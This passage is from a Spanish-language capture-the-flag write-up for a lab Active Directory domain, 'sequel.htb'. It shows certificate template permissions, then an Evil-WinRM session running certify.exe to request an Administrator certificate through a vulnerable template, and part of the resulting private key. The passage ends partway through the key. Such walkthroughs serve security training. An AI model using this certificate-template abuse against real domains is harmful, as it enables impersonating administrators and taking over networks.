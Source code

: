```ruby
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```


Tras obtener esta información debemos lanzar de nuevo la herramienta certify.exe para obtener el certificado del usuario Administrador y obtenemos su clave privada, esto lo haremos con los datos que obtuvimos antes con la plantilla vulnerable.

```ruby
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 24

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0iIsK5UMjkMqzMh6IpbcJR18qpfJ+JK/n2qOagV4DvgcRKJ/
WSwGCuOazuapnXq+fZM6oBpU9d2B9y8maBI9KrWHny/1BKf51YN/piDn0r57Yw6M
dRj0rdFD6VDYwMtU4xFZ+X6qpMT/omxNYOwAuqfzWX3HWOBPaLZaN2PJNT+2XNdG
IDdQPfTxNENH+AKQeP0hfLLw0QWzr3Z6NqbbuMDacP6hZ/Tfl5woiVmKv28/ySnA
vC/UVo19xS/iupjwIJZj8z86CKj6AndFBPOolveSsze4NZAEtK1HKrMrvNwjZXRZ
kFFMLrJ7E5af/3wVQ1246OjaQ9kpohh6VqMaCQIDAQABAoIBAQCT0/iQ/H1lw7jj
chICLXFYJwNiHAC5f7uREex4h7prhX6Vhl/iwsbJeE+bSMiAgi5qt13h7kRg52Ec
HS5+vn4LgsOTaLCNgwKOg8EUhUexidHR4RVM966CbZrCE9842pKwX6+VhtfTrMdO
Y7SX/8+PgMIA7iyEyOD0gHy9RNTzQMTbsqcy4dOmg/TvDwtZXe2r/3K4LbEjmo+6
HmH1gtbxPX7m+1ukuDTWPWuDRLZQZLeXxgBVVHc9vByn91kGguR3gGXkg7YOKiKr
up2Owi1l5xGySeQnFUpfMAyMGgW3K8uXDr3c9Ej8nml+OxI/szv0oQJ3ezzz3jQw
4rOOpqGlAoGBAPrMDvBJTiPhYKM0wkAAxRQHiyQ2Dj3Dp7BuA1d6mUmKinVR5f5E
bYsbBCdVlV2BRUN8NCWZ8UkeE0kq5ongxz0pbwt6j0O4WOKpB8jldXAHq57nnjVf
Oh6UEalHvf/px/jHvA4rXpNkw1FaU9RsbRFkxPG6XYgb7bRITtOvHS4LAoGBANZ+
KA/NY1k2kwfY3psZr8YdXMkoA2QG2xOMcRjzm3mPYpY/aoinGNNmENAQXhtNTjz5
Ut2scVMAACAGRySL82LwpCz5Kg82RqLaKf+tZp8rmSKI3a1dQ/NZ0xJLdum1lh0s
mJndU5HSU9R4zzX3zo673DrVP/cG6iGKR1X9mmi7AoGAN6wclNJw+h4JqbEIfdSt
```